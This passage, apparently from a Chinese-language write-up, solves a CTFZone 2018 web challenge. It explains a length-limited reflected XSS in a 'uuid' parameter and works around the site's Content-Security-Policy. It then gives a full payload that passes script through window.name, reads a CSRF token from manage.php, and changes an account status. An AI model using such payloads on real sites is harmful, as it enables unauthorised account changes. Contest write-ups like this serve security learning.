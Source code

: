    ```
   35.156.178.88 - - [03/Aug/2018:20:56:35 +0800] "GET / HTTP/1.1" 200 65 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0"
   35.156.178.88 - - [03/Aug/2018:20:56:35 +0800] "GET /favicon.ico HTTP/1.1" 404 209 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0"
   35.156.178.88 - - [03/Aug/2018:20:56:35 +0800] "GET /favicon.ico HTTP/1.1" 404 209 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0"
   ```

2. xss漏洞

   uuid存在反射型xss,限制长度36个字符

   ![](/assets/ctfzone/TIM截图20180803211936.png)

3. how to get flag

   ![](/assets/ctfzone/TIM截图20180803212218.png)

   这里需要管理员将`Status`修改为`Premium`

4. 思路：

   CSP如下:

   ```
   Content-Security-Policy: style-src 'self' 'unsafe-inline'; script-src 'self' 'unsafe-inline' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/;
   X-Frame-Options: ALLOW-FROM http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one
   X-XSS-Protection: 1; mode=block
   ```

   由于后台使用Firefox,所以`X-XSS-Protections` 没有作用。

   通过XSRF修改状态。

5. 解法1：

   payload如下:

   ```
   <script>
         window.open('http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid="><svg/onload=$.globalEval(name)', `
           $.get("manage.php", function(data){    
                   var x = /name="token" value="([^"]+)/.exec(data);
                   $.post("manage.php", {user_uuid: "86dced2a-0305-42ed-a13c-f0c2e6079805", token: x[1], status: "premium"}); 
            });
      `);
   </script>
   ```

   含义:

   ```
   window.open('http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid="><svg/onload=$.globalEval(name)', <long payload>) 
   ```
